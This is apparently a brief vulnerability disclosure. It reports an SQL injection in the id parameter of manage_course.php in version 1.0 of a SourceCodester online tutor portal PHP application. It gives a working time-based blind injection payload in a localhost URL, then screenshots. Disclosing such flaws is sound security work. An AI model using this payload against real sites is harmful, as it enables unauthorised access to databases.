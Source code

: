 ## SQL injection vulnerability exists in online tutor portal system

## Vulnerability author:wanglun

supplier:
https://www.sourcecodester.com/php/15339/online-tutor-portal-site-phpopp-free-source-code.html

edition: 
1.0

/manage_course.php

The Id parameter has SQL injection. Procedure

Payload: https://localhost:443/otps/tutor/courses/manage_course.php?id=2' AND (SELECT 2701 FROM (SELECT(SLEEP(5)))jDRp) AND 'SYOZ'='SYOZ

![image](https://github.com/user-attachments/assets/7699edde-ec09-44fe-aea7-900e49d3b06c)

![image](https://github.com/user-attachments/assets/9410cd17-4c58-4b86-87f6-10568352b354)

